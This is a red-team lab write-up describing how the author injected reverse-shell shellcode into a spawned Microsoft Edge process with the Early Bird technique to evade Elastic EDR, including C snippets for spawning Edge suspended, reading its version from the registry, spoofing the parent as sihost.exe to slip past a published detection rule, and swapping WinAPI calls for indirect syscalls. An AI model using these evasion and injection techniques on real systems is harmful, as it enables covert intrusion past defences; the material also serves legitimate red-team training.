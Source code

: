 ![](imgs/earlybird/EdgeCaseHeader.jpeg)

# Early Bird - Edge case

## Intro
In a recent red team lab - [Vulnlab](https://www.vulnlab.com/main/red-team-labs) - we had the challenge to establish initial access via phishing. Basically, after compromising an IT department email account, we had to send a phishing email targeting another account which was expecting to receive the "HR Tool". The target machine is running Elastic EDR agent and the goal was to evade detection and gain a foothold.

My initial thoughts were to create a program that uses of the Early Bird technique to spawn a new instance of MS Edge and inject a reverse shell shellcode. The reason to pick Edge as the target process is because security products can easily detect anomalous network connections, for example, it would be very suspicious if `Notepad.exe` process starts sending HTTP/S packets every 30s.

## The current directory issue
I wanted to spawn an instance of MS Edge as closer to the original as possible to avoid detection. Here is how a legitimate `msedge.exe` process looks like in Process Hacker:
![](imgs/earlybird/img01.png)

When using `CreateProcessA` API or even the low-level `NtCreateUserProcess` we can specify the parameters and attributes for the process, such as the "Image file name", "Command line", even spoof the parent process. However, the one that was challenging to get it right was the "Current directory" since it contains the path containing the version of Edge. If we don’t specify anything and pass the `NULL` value, it will be populated with the current directory where the program was initiated:
![](imgs/earlybird/img02.png)
*Note: I am also spoofing the parent process as you can see it is showing as child of `explorer.exe`.*

See below a snippet of the code for spawning `msedge.exe` without specifying the "Current directory":
```C
...<snip>...
if (!CreateProcessA(
		"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
		"\"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe\"",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT,
		NULL,
		NULL,   // Current directory value
		&SiEx.StartupInfo,
		&Pi)) {
		printf("[!] CreateProcessA failed with error : %d \n", GetLastError());
		return FALSE;
	}
...<snip>...
```

On the other hand, if we specify the wrong directory, it will fail and the program will likely crash.

## Fetching Edge version from the registry
To solve this issue we need to retrieve the Edge version installed in the target system, concatenate with the path `C:\Program Files (x86)\Microsoft\Edge\Application\` and pass as the value for the current directory when spawning an instance of `msedge.exe`.

There are a few ways to do that, I decided to fetch the registry.
![](imgs/earlybird/img03.png)
We can find the Edge version installed under `HKEY_CURRENT_USER\Software\Microsoft\Edge\BLBeacon` registry, in the `version` key.

Building a POC to retrieve Edge version from the registry:
```C
#include <stdio.h>
#include <windows.h>

BOOL ReadEdgeVersionFromRegistry(OUT LPCSTR* ppPath) {
	LSTATUS status = NULL;
	DWORD dwBytesRead = 0;
	PBYTE pBytes = NULL;

	// MS Edge install registry location: Software\\Microsoft\\Edge\\BLBeacon
	char edgeReg[] = { 'S', 'o', 'f', 't', 'w', 'a', 'r', 'e', '\\', 'M', 'i', 'c', 'r', 'o', 's', 'o', 'f', 't', '\\', 'E', 'd', 'g', 'e', '\\', 'B', 'L', 'B', 'e', 'a', 'c', 'o', 'n', '\0' };

	// Key in registry containing the MS Edge version
	char edgeVersion[] = { 'v', 'e', 'r', 's', 'i', 'o', 'n', '\0' };

	// Fetching the version's size
	status = RegGetValueA(HKEY_CURRENT_USER, edgeReg, edgeVersion, RRF_RT_ANY, NULL, NULL, &dwBytesRead);
	if (ERROR_SUCCESS != status) {
		printf("[!] RegGetValueA Failed With Error : %d\n", status);
		return FALSE;
	}

	// Allocating heap that will store the version that will be read
	pBytes = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBytesRead);
	if (pBytes == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
		return FALSE;
	}

	// Reading the version from "edgeReg" key, from value "edgeVersion"
	status = RegGetValueA(HKEY_CURRENT_USER, edgeReg, edgeVersion, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);
	if (ERROR_SUCCESS != status) {
		printf("[!] RegGetValueA Failed With Error : %d\n", status);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}
	printf("\t[i] Found Edge version: %s\n", pBytes);

	/* Concatenate the version with the base path C:\\Program Files(x86)\\Microsoft\\Edge\\Application\\ */
	char basePath[] = { 'C', ':', '\\', 'P', 'r', 'o', 'g', 'r', 'a', 'm', ' ', 'F', 'i', 'l', 'e', 's', ' ', '(', 'x', '8', '6', ')', '\\', 'M', 'i', 'c', 'r', 'o', 's', 'o', 'f', 't', '\\', 'E', 'd', 'g', 'e', '\\', 'A', 'p', 'p', 'l', 'i', 'c', 'a', 't', 'i', 'o', 'n', '\\', '\0' };
	size_t basePathLen = strlen(basePath);
	size_t versionLen = dwBytesRead - 1; // Exclude the null-terminator from the version length

	// Allocate memory for the complete path
	*ppPath = (LPCSTR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, basePathLen + versionLen + 1);
	if (*ppPath == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Copy the base path to ppPath
	if (strcpy_s((char*)*ppPath, basePathLen + versionLen + 1, basePath) != 0) {
		printf("[!] strcpy_s Failed\n");
		HeapFree(GetProcessHeap(), 0, *ppPath);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Concatenate the version at the end of ppPath
	if (strcat_s((char*)*ppPath, basePathLen + versionLen + 1, (const char*)pBytes) != 0) {
		printf("[!] strcat_s Failed\n");
		HeapFree(GetProcessHeap(), 0, *ppPath);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Print the full concatenated path
	printf("\t[i] Edge full Path: %s\n", *ppPath);

	// Free the version buffer
	HeapFree(GetProcessHeap(), 0, pBytes);

	return TRUE;
}

int main() {

    printf("[i] Looking for MS Edge version in the registry\n");
    LPCSTR pEdgePath = NULL;
    if (!ReadEdgeVersionFromRegistry(&pEdgePath)) {
        printf("[-] Error retrieving Microsoft Edge path\n");
        return -1;
    }

    return 0;
}
```

Compile and run the code above, we can verify that it is working:
![](imgs/earlybird/img04.png)

## Bypassing PPID spoofing rule
When I thought I was done, Elastic was detecting the parent process spoofing. Luckily, we can have  a look at Elastic detection [rules for PPID spoofing on Github](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/defense_evasion_parent_process_pid_spoofing.toml#L91). That is when I saw this on [line 91](https://github.com/elastic/protections-artifacts/blob/7cab0ce93881cef1b1073c3946aac790a284f554/behavior/rules/defense_evasion_parent_process_pid_spoofing.toml#L91):
![](imgs/earlybird/img05.png)

It seems that if `msedge.exe` has 2 or more arguments and parent is `sihost.exe` then we are good to go. I modified the "Command line" value and changed the parent process from `explorer.exe` to `sihost.exe`:
![](imgs/earlybird/img06.png)

Looks exactly what we need to get that initial foothold in the red team lab.

!!!  
The full code for the POC above can be found [on my Github repo here](https://github.com/caueb/EarlyBird-EdgeCase).   
!!!

## Final adjustments
For my final code I replaced most of the Windows API calls with indirect syscalls using [HellsHall](https://github.com/Maldev-Academy/HellHall). 

Here is a list of the APIs to replace from the POC:

POC WinAPI | Syscall {.compact}  
--- | ---
OpenProcessToken | NtOpenProcessToken
OpenProcess | NtOpenProcess
CreateProcessA | NtCreateUserProcess
VirtualAllocEx | NtAllocateVirtualMemory
WriteProcessMemory | NtWriteVirtualMemory
VirtualProtectEx | NtProtectVirtualMemory
QueueUserAPC | NtQueueApcThread
ResumeThread | NtResumeThread
CloseHandle | NtClose

After doing these modifications I successfully got my initial foothold and a reverse shell running under `msedge.exe`.